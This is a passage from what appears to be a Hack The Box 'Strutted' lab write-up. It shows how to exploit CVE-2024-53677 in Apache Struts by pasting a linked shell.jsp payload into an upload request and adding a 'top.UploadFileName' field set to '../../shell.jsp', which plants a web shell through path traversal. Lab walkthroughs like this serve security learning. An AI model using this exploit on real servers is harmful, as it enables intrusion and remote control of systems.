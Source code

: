 <img src='/images/HTB_Strutted/image 8.png'>

Send this request to the Repeater and paste [this](https://raw.githubusercontent.com/TAM-K592/CVE-2024-53677-S2-067/refs/heads/ALOK/shell.jsp) payload into the request like so:

<img src='/images/HTB_Strutted/image 9.png'>

And at the end of the request paste this:

```
-----------------------------815920776247890722980599935
Content-Disposition: form-data; name="top.UploadFileName"

../../shell.jsp
```

So now the complete request looks like this:
